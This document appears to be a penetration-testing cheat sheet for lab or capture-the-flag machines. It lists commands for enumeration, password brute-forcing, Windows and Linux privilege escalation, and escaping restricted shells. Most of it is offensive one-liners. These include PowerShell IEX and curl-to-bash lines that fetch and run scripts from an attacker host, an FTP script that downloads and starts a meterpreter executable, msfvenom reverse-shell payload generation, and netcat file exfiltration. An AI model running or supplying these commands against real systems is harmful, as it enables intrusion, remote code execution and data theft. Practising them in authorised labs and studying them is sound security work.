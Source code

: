 ## Enum
* `nmap -Pn -n -p- -sT --min-rate 5000 {ip}` _Quick nmap all ports_
* `nmap -Pn -n -p- -sV -A {ip}` _Slow nmap all info_
* `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -o gobuster.txt ` _Gobuster scan for folders with n threads_
* `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -x php,asp,aspx,html -o gobuster_aspx.txt` _Gobuster scan for pages with n threads_
* `wfuzz -hw {hide rows with this number of words} --hh {hide rows with this number of chars} -hc {hide rows with this response code} -w {wordlist} {URL}/FUZZ` _Use wfuzz to enumerate pages when gobuster won't work_
* _To clone git repos from challenge machines the url from the git config file must be added to the local host file_
* _https://www.wappalyzer.com/download wappalyzer to identify technologies used on websites_
* _https://retirejs.github.io/retire.js/ find old javascript libraries with known vulns on a a page_
* `impacket/examples/lookupsid.py {user}:{password}@{ip}` _use any valid creds to enumerate other usernames on a windows box_
* `smbmap -u {user} -p '{pass}' -H {ip}` _use valid creds to enumerate shares on a windows box_

## Exploit
* `python -m SimpleHTTPServer 80` _Start python 2 web server on kali on port 80 in current dir_
* `python3 -m http.server 80` _Start a python 3 http server on port 80 in current directory_
* `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={ip} LPORT={port} -f exe >m.exe` _Make a standard meterpreter exe_
* `tcpdump -i {tun0} icmp` _Listen for ping requests.  Useful when testing RCE_
* `$command = 'IEX(New-Object Net.WebClient).downloadString("http://{kali_ip}/script.ps1")
[convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))` _base64 encode powershell commands for easier transport to target_
* `cmd /c powershell -exec bypass -noexit -encodedCommand {base64}` _use cmd to run the bas64 encoded command_

## Password Attacks
* `hydra -l {username} -P {password file} {base url or ip} -s{port} http-post-form "/index.php:user=^USER^&password=^PASS^:{failed string}"`  _Brute force http post login with hydra_
* [figure out hash types](https://hashcat.net/wiki/doku.php?id=example_hashes) _page with example hashes and their hashcat type/code_
* `hashcat -m {hashtype} hashes.txt ~/Documents/git/SecLists/Passwords/*.txt --force`  _try cracking all hashes in hashes.txt against all seclist password text files, using no gpu_

## Priv Esc Windows
* `powershell -command "& { (New-Object Net.WebClient).DownloadFile('http://{kali_ip}:8080/m.exe', 'c:\users\victim\desktop\m.exe') }"` _Powershell download a file_
* `systeminfo >systeminfo.txt` _Export sysinfo from windows_
* `python windows-exploit-suggester.py --database 2018-09-06-mssb.xls --systeminfo sysinfo.txt` _Use exported sysinfo file to check for possible exploits using this tool https://github.com/GDSSecurity/Windows-Exploit-Suggester.git_
* `python windows-exploit-suggester.py --update` _Get new database file for exploit suggester_
* `cmd.exe /c @echo open x.x.x.x 21>c:\users\victim\desktop\ftp.txt&@echo USER anonymous>>c:\users\victim\desktop\ftp.txt&@echo anonymous>> c:\users\victim\desktop\ftp.txt&@echo binary>>c:\users\victim\desktop\ftp.txt&@echo get met.exe>>c:\users\victim\desktop\ftp.txt&@echo quit>>c:\users\victim\desktop\ftp.txt&@ftp -v -n -s:c:\users\victim\desktop\ftp.txt&@start met.exe` _Create a scirpt to download a file via ftp, then run the script, then run the downloaded file_
* [Next Gen Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
* [Windows enumeration script](https://github.com/411Hall/JAWS)
* `IEX(New-Object Net.WebClient).downloadString('http://{kali_ip}/script.ps1')` _Download and exec a powershell script in memory_
* `powershell -exec bypass -noexit "IEX(New-Object Net.WebClient).downloadString('http://{kali_ip}/script.ps1')"` _From cmd launch powershell to download and exec script in memory_
* `run post/multi/recon/local_exploit_suggester` _meterpreter local exploit suggester_
* [Shell for valid winrm creds port 5985](https://github.com/Hackplayers/evil-winrm)
* [Promote shell to meterpreter and bypass AV](https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus/)

## Priv Esc Linux
* `curl {kali_ip}:{port}/LinEnum.sh | /bin/bash` _Run linux enum script without dropping it on disk_
* `curl {kali_ip}:{port}/linuxprivchecker.py | python` _Run linux priv checker without dropping it on disk_
* `/sbin/getcap -r / 2>/dev/null` _Search filesytem for files with special capabilities.  Similar to suid_
* `find / -type f -name "*" -newermt 2018-09-07 ! -newermt 2018-09-08 2>/dev/null` _Find all files modified on a particular day.  Maybe same day as user flag. example show sep 7 2018_
* `ssh -L {localport}:localhost:{remoteport} {user}@{remoteip}` _Forward a port through ssh_
* `nc -w 3 {attacker ip} {port} < {filename}` _Send file with netcat_
* `nc -l -p {listen port} > {filename}` _Receive file with netcat_
* `sudo -l` _Show commands that can be run as sudo_
* `python -c 'import pty;pty.spawn("/bin/bash")'` _Get a better shell in netcat_
* `CTRZ + z -- stty raw -echo  -- fg` _Make netcat python shell interactive.  You won't see fg when it's typed.  Just hit enter._
* `wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl` _Download exploit suggester_
* `wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh` _Download linux enumeration script_
* `wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64` _Download 64 bit version of pspy for monitoring processes that might run as root_

## Pric Esc Generic
* `run post/multi/recon/local_exploit_suggester` _Check for local priv esc exploits.  Must be interacting with meterpreter session_

## Break out of limited shell 
**(Credit Gos Here https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)**
* `env` _Check environmential variables_
* `echo $PATH` _Check path for executables_
* `echo $SHELL` _What shell is in use_
* `/bin/sh` _Just run new shell_
* `export PATH=/bin:/usr/bin:$PATH` _Just add folders to PATH_
* `export SHELL=/bin/sh` _Just change shell_
* `cp /bin/sh /some/dir/from/PATH; sh` _Copy sh to a runable folder and launch it_
* `ftp, gdb, more, less, man, vi, vim, scp, awk, find` _Can all launch shells_
* `ssh restricted@x.x.x.x -t "/bin/sh"` _Execute /bin/sh before remote shell is loaded_
* `ssh restricted@x.x.x.x -t "bash --noprofile"` _Start remote shell without loading rc profile_
* `ssh restricted@x.x.x.x -t "() { :; }; /bin/bash"` _Try shell shock_
* `python -c 'import os; os.system("/bin/bash")'` _Launch shell with python_
* `perl -e 'exec "/bin/sh";'` _Launch shell with perl_
